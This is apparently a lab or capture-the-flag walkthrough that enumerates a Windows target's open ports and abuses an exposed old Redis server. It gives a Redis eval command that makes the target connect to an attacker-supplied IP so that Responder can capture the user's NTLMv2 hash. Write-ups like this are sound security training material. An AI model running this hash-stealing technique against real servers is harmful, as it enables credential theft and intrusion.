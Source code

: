 ```bash
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-01T09:17:34
|_  start_date: N/A
|_clock-skew: -1s
```


## Information Gathering

Through **Nmap** we found port **53 DN**S is open which can be used to perform zone transfer, **139 & 445 SMB** ports are open and can be used to enumerate network shares with anonymous user for initial access, **6379 Redis Server** port is opened which can be used to gain information about Redis Server and many **rpc** ports are open.

### Redis Server 6379

**Redis** is a popular open-source, in-memory key-value store used extensively for caching and fast data retrieval. While Redis is highly performant, it is often misconfigured or left exposed on the internet, making it a target for attackers during penetration testing engagements.

In our case Redis Server Redis-x64-2.8.2402 running, vulnerable to RCE, got after running **INFO** command

```bash
$ redis-cli -h 10.10.249.173
$ INFO
```
<img src="https://i.imgur.com/gV8yaIu.png">

Quick Google Search reveals that this version is vulnerable to command injection. You can learn more about it [here](http://michalszalkowski.com/security/pentesting-ports/6379-redis)  (R2)

<img src="https://i.imgur.com/blJKAx8.png">

### Redis Exploitation

Using redis vulnerability we can also steal the NTLM hash of current user. To steal the NTLM hash, we first need to run Responder.

<img src="https://i.imgur.com/AS3prwO.png">

Then run the `eval` function to make request to our responder.

```bash
$ eval "dofile('//Your-Tun0-IP/test')" 0
```

<img src="https://i.imgur.com/37jN8yq.png">

We got NTLMv2 Hash of user `enterprise-security` on our responser.

<img src="https://i.imgur.com/MUqqROe.png">
